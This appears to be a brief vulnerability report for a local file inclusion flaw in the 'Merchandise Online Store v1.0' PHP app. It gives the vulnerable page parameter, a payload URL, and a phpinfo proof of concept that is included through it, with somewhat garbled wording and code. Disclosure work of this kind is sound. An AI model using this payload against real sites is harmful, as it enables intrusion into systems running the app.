 # Merchandise Online Store v1.0 by oretnom23 has The local file contains

vendor : https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: ip/vloggers_merch/admin/?page=

Vulnerability location: ip/vloggers_merch/admin/?page=, p

Payload: ip/vloggers_merch/admin/?page=shell

![image](https://user-images.githubusercontent.com/54017627/166879194-6fb312af-fd3e-4df6-a8ef-fb2cdc6688b4.png)

We create a shell.php under the PHP file of the root of the website, which reads "<?" phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/166879125-9036ece8-1c00-4a1f-b07d-81e46e432065.png)

And visit http://ip/vloggers_merch/?admin/?page=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/166878978-3e2fcb95-b23f-40a4-bd24-c7a235bc8c9f.png)
